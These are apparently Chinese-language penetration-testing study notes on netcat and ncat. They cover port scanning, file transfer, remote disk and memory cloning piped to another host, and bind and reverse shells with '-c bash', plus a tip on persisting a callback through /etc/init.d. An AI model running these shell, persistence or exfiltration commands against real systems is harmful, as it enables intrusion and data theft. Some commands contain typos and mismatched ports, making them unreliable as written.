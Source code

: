 #### NC -- TELNET /BANNER
> * `nc -nv 1.1.1.1 80`, 
> 	* `-v`: 显示详细的输出内容. 
> 	* `-n`: 不进行DNS解析,后跟ip地址 
> * POP3, 端口110, 
> 	* 通过`ping pop3.163.com`获得ip地址, 进一步使用nc(需要base64编码)
> * SMTP, 端口25
> * `nc -l -p 3333`,
> 	* `-l`开启监听模式, 
> 	* `-p`指定相应端口,
> 	* `netstat -pantu | grep port`查看相应端口服务是否开启
> * 远程电子取证信息收集:
> 	* `ps aux | nc -nv 172.16.203.132 3333 -q 1`,获取进程信息并通过nc传输, 
> 	* `nc -l -p 3333 > ps.txt`, 输出重定向. 
> 	* `-q 1`是在输入完成1s后结束连接. 
> 	* `lsof`指令获取所有打开文件的信息

#### NC -- 文件传输/目录

> * 文件传输
> 	* A(作为文件接收端): `nc -lp 333 > 1.mp4`
> 	* B(作为文件发送端): `nc -nv 1.1.1.1 333 < 1.mp4 -q 1`
> 	* 或
> 	* A(作为文件发送端): `nc -q 1 -lp 333 < a.mp4`
> 	* B(作为文件接受端): `nc -nv 1.1.1.1 333 > b.mp4`
> * 传输目录(先打包,在传送)
> 	* A: `tar -cvf - ./burpsuitePro | nc -lp 3333 -q 1`
> 	* B: `nc 172.16.203.132 3333 | tar -xvf -`

#### NC -- 流媒体服务
> * A: `cat 1.mp4 | nc -lp 333 `
> * B: `nc -nv 1.1.1.1 333 | mplayer -vo x11 -cache 3000 -`

#### NC -- 端口扫描

> * `nc -nvz 1.1.1.1 1-65535`, 以TCP的方式进行扫描
> * `nc -nvzu 1.1.1.1 1-1024`, 以UDP的方式进行扫描

#### NC -- 远程克隆硬盘

> * 远程电子取证,可以将目标服务器硬盘远程复制,或者内存(/dev/mem , /dev/kmem)
> * A: `nc -lp 333 | dd of=/dev/sda`,of即outputfile, sda即硬盘数据,若有两块盘即sdb
> * B: `dd if=/dev/sda | nc -nv 1.1.1.1 333 -q 1`

#### NC -- 远程控制

> * 正向:
> 	* A: `nc -lp 3333 -c bash`
> 	* B: `nv 1.1.1.1 3333`
> * 反向:
> 	* A: `nc -lp 3333`
> 	* B: `nc 1.1.1.1 333 -c bash`
> 	* 当从外向内的流量被拦截时, 可以使用反向的方法, 在目标服务器上添加启动脚本进行连接(/etc/init.d).
> * windows 用户把 bash 改成 cmd

#### NC -- NCAT

> * NC缺乏加密和身份验证的能力
> * 不同系统 / 平台的nc参数不尽相同
> * Ncat 包含于 nmap 工具包中
> 	* A: `ncat -c bash --allow 172.16.203.1 -vnl 333 --ssl`
> 	* B: `ncat -nv 1.1.1.1 333 -ssl`






